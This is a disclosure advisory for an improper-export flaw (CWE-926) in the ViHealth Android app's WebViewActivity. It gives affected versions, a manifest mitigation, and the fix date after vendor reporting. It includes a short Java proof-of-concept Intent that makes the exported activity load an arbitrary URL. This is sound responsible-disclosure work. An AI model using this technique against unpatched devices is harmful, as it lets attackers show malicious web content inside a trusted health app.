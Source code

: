 

Vendor of Product: Viatom Tech                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type:   CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

Discoverer: Edward Warren

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

["activity android:name="com.viatom.baselib.mvvm.web.WebViewActivity" android:exported="true" android:screenOrientation="portrait""]


An attacker could craft a 3rd party app using the following code to load the url of their choice within the context of the exported activity of your application to facilitate malicious actions:

![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/a190d272-a41d-4a01-8d7b-c2b64587b6b4)


********************************************************************************************************************************
// Create an Intent to start the exported WebViewActivity of the target app
Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.windows93.net");

// Start the activity
startActivity(launch);
********************************************************************************************************************************



**This issue has been fixed today (6/19/23) with the app ViHealth (V. 2.74.62)-shortly after I reported it to the vendor on 6/10/23.
